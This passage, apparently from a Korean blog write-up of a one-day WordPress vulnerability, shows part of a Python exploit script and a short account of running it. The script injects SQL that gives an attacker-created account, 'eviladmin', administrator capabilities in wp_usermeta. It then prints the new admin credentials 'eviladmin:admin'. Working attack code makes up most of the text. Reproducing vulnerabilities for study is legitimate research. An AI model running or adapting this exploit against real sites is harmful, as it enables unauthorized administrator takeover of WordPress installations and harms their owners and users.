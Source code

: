 ```python

print("[+] Not vulnerable")

quit()

# Second request (give permission)

print("[+] Giving eviladmin administrator permissions")

makeRequest("INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES ((SELECT ID FROM wp_users WHERE user_login = 'eviladmin'), 'wp_capabilities', 'a:1:{s:13:\"administrator\";s:1:\"1\";}')", "bd98494b41544b818fa9f583dadfa2bb", url)

if "Tampered query" in response.text or "invalid login" in response.text or "login required" in response.text:

print("[+] Error in the payload")

quit()

print("[+] Exploit completed!")

print("[+] Administrator created: eviladmin:admin")
```

---

![image.png](assets/posts/one-day/2024-11-07/image-005.png)

현재 db에는 khh라는 사용자 계정밖에 없다.

익스플로잇 코드를 실행하면, 사용자 계정을 추가하는 동시에 관리자 권한을 부여한다.

![image.png](assets/posts/one-day/2024-11-07/image-006.png)

